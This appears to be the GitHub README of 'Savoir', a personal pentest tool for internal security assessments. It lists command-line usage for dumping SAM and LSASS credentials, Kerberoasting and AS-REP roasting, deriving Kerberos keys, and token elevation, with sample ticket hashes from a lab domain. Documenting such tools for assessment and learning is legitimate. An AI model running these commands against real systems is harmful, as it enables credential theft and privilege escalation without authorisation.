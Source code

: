 # Savoir

Savoir is a tool to perform tasks during internal security assessment.
This project help me to understand how some pentest tools works.


## Build

You can build `savoir` for multiple platforms:

```bash
make update
make build
```

The `build` folder contains build for multiple OS and architectures.


## Commands

### sam

```bash
savoir sam local # Windows only
savoir sam hive --sam <path/to/sam> --system <path/to/system>
savoir sam shadowcopies # Windows only
```


### lsass

```bash
savoir lsass process --json # Windows only
savoir lsass minidump --path /path/to/lsass.dmp --json
```

### kerberos


#### Ask a TGT then a TGS

You can also ask a TGS, `savoir` will ask for a `TGT` first

```bash
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$858129adc693b1a8bb62e50a51b4ffc2$9b2b...
```

You can ask a `TGT` save it to a `kirbi` files then ask for a `TGS`:

```bash
# Ask a TGT and save it to dany.kirbi
savoir kerberos asktgt --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -o dany.kirbi
TGT saved to dany.kirbi.

# Display the TGT
savoir kerberos describe --ticket dany.kirbi
ServiceName              :  krbtgt/ubh.lab
ServiceRealm             :  UBH.LAB
UserName                 :  dany
UserRealm                :  UBH.LAB
StartTime                :  2022-01-22 09:12:55 +0000 UTC
EndTime                  :  2022-01-22 19:12:55 +0000 UTC
RenewTill                :  2022-01-29 09:12:55 +0000 UTC
Flags                    :  forwardable ; proxiable ; renewable ; initial ; pre-authent
KeyType                  :  arcfour-hmac-md5
Base64(key)              :  9CrwY3aAdXdr91h7uGi9qg==

# Ask a TGS using this TGT
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -t dany.kirbi -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$ef59ed1f3fdfddf356dd93823ad8208f$228920...
```


#### Generate Kerberos keys

Note that `RC4` key is the `NTLM` hash `(MD4(UNICODE(password)))`

```bash
savoir kerberos keys --password 'Pa$$w0rd' --salt 'CONTOSO.COMAdministrator'
arcfour-hmac-md5
  Key: 92937945b518814341de3f726500d4ff
  Iterations: 00001000

aes128-cts-hmac-sha1-96
  Key: bd75e98362b16649ffbaed630d5341d0
  Iterations: 00001000

aes256-cts-hmac-sha1-96
  Key: 660e61042b190b5724c62bb473facca12058fb9ad3c03c0d2809f839c0352502
  Iterations: 00001000
```


#### AS-REP roasting 

A User account may have the option `Do not require Kerberos preauthentication`
checked.

```bash
savoir kerberos asktgt --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> -e rc4 --format=john
```


#### Kerberoasing

```bash
savoir kerberos asktgs --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> -e rc4 -r <TARGET_USER>
```


### token

```bash
savoir token elevate -x cmd.exe # Windows only
```


### webscreenshot

This command take a screenshot of a URL using a headless browser.

```bash
savoir webscreenshot --url {url} --renderer {chrome|chromium|firefox} --renderer-path {path}
```


## Credits

- [gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- [skelsec/pypykatz](https://github.com/skelsec/pypykatz)
- [SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
- [jcmturner/gokrb5](https://github.com/jcmturner/gokrb5)
